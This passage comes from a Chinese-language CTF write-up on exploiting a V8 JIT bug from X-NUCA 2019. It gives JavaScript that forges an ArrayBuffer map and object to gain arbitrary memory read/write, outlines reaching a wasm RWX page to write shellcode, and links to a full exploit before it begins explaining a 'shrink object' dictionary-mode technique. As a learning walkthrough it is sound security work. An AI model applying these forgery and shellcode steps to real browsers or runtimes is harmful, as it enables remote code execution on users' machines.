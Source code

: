 伪造出`ArrayBuffer map`之后，伪造一个`ArrayBuffer`便比较简单了，只需要按照下面这种形式来伪造即可，前面的三个字段只需要用我们`fake map`的地址来填写即可，后面的是`ArrayBuffer`的length和backing store。

```
var fake_ab = [
    mem.u2d(ab_map_obj_addr), //我们fake的map地址
    mem.u2d(ab_map_obj_addr), //写死即可，这个数字应该无所谓
    mem.u2d(ab_map_obj_addr), //写死即可，这个数字应该无所谓
    3.4766779039175e-310, /* buffer length 0x4000*/
    3.477098183419809e-308,//backing store,先随便填一个数
    mem.u2d(0x8)
];
```

这里需要注意最后一个字段，在`34c3ctf v9`里面用`mem.u2d(4)`可以的，但是在这里它会报如下错误：

```
TypeError: Cannot perform DataView.prototype.getFloat64 on a detached ArrayBuffer
    at DataView.getFloat64 (&lt;anonymous&gt;)

```

依据这个错误，翻了一下源码，发现通过`IsDetachedBuffer`来判断一个buffer是否是`Detached`，判断的方式就是`LoadJSArrayBufferBitField`加载JSArrayBuffer的`bit_filed`，`bit_filed`刚好就是我们`fake_ab`的最后一个字段，所以我尝试把它从0x4改成0x8，结果就没有报错了。

最后伪造的ArrayBuffer数据可以是这样：

```
let fake_ab = `{`y1:mem.u2d(fake_ab_map_addr),y2:mem.u2d(fake_ab_map_addr),y3:mem.u2d(fake_ab_map_addr),y4:mem.u2d(0x2000000000),y5:mem.u2d(fake_ab_map_addr+0x20),y6:mem.u2d(0x8)`}`;
    gc();
```

### <a class="reference-link" name="getshell"></a>getshell

有了伪造的ArrayBuffer，再结合DataView，通过不断地修改`backing_store`也既`fake_ab.y5`即可实现任意地址读写。按照`wasm func addr(offset:0x18)`-&gt;`SharedFunctionInfo(offset:0x8)`-&gt;`WasmExportedFunctionData(offset:0x10)`-&gt;`data_instance(offset:0xc8)`-&gt;`imported_function_targets(offset:0)`-&gt;`rwx addr`的顺序获取rwx的地址，写入shellcode即可。

[完整exp在这里](https://github.com/e3pem/CTF/blob/master/xnuca2019_jit/exp1.js)



## 漏洞利用 – Shrink object

### <a class="reference-link" name="%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86"></a>基础知识

该漏洞利用技巧是从mem2019师傅[34C3 CTF V9](https://mem2019.github.io/jekyll/update/2019/08/28/V8-Redundancy-Elimination.html)中学到的，从前面的分析我们知道了对象内(in-object)属性的存储方式，这种方式存储的是对象初始化时就有的属性，也就是我们所说的快速属性，然而还有一种存储属性的模式，就是`dictionary mode`。在字典模式中属性的存储不同于`fast mode`，不是直接存放在距离对象偏移为0x18的位置处，而是重新开辟了一块空间来存放。

我们用下面这个例子来实际分析一下：

```
function gc() `{` 
    for (var i = 0; i &lt; 1024 * 1024 * 16; i++)`{`
        new String();
    `}`
`}`
let obj = `{`a:1.1,b:1.2,c:1.3,d:1.4,e:1.5`}`;
%DebugPrint(obj);
readline();
delete obj['d'];
%DebugPrint(obj);
readline();
gc();
%DebugPrint(obj);
readline();
```